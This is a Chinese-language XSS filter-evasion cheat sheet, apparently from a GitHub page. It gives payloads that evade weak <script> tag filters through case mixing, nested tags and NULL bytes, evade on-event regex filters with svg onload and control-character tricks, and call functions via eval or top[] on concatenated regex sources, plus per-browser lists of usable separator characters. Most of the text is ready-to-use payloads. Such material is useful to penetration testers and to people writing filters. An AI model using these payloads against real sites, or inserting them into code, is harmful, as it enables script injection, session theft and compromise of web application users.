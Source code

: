 `/ale/.source+/rt/.source`XSS`` 是不行的

需要结合 eval 或者 top

```
top[/ale/.source+/rt/.source](1)
eval((/ale/.source+/rt/.source))(1)
```

`/ale/.source+/rt/.source` 只是字符串拼接，没法后直接跟() 执行函数

## 绕过弱 <script> 标签过滤 （绕过其他标签过滤同理）

简单的过滤器无法涵盖所有可能的情况，所以可以绕开它们。 以下示例仅是对弱规则的一些绕过。

```python
<ScRiPt>alert(1);</ScRiPt> 	               # 大写和小写字符
<ScRiPt>alert(1);                          # 大写和小写字符，不带结束标记
<script/random>alert(1);</script>          # 标签后加随机字符串
<script                             
>alert(1);</script>                        # 标签后加换行符
<scr<script>ipt>alert(1)</scr<script>ipt>  # 嵌套标签(双写)
<scr\x00ipt>alert(1)</scr\x00ipt>          # NULL字节
```

## 绕过 on 事件过滤

从防御的角度来看，解决此问题方案是过滤所有以 on 开头的事件，防止 XSS。

这是一个被广泛使用的正则表达式  (on\w+\s*=)
由于HTML和浏览器“动态性”的结合，我们可以轻松绕过这个过滤器：

```python
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
```

因此有了“升级”版过滤器：(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
但是仍然存在问题。 某些浏览器将一些特殊字符转换为空格，因此 \ s 元字符不足以覆盖所有可能的字符。

例如以下的一些绕过方法：

```python
<svg onload%09=alert(1)> #适用于除Safari以外的所有浏览器
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)> #只适用IE
```

在事件名称（例如 onload）和等号（=）字符之间或在事件名称之前可用的控制字符列表，

```python
IExplorer = [0x09,0x0B,0x0C,0x20,0x3B]
Chrome = [0x09,0x20,0x28,0x2C,0x3B]
Safari = [0x2C,0x3B]
FireFox = [0x09,0x20,0x28,0x2C,0x3B]
Opera = [0x09,0x20,0x2C,0x3B]
Android = [0x09,0x20,0x28,0x2C,0x3B]
```
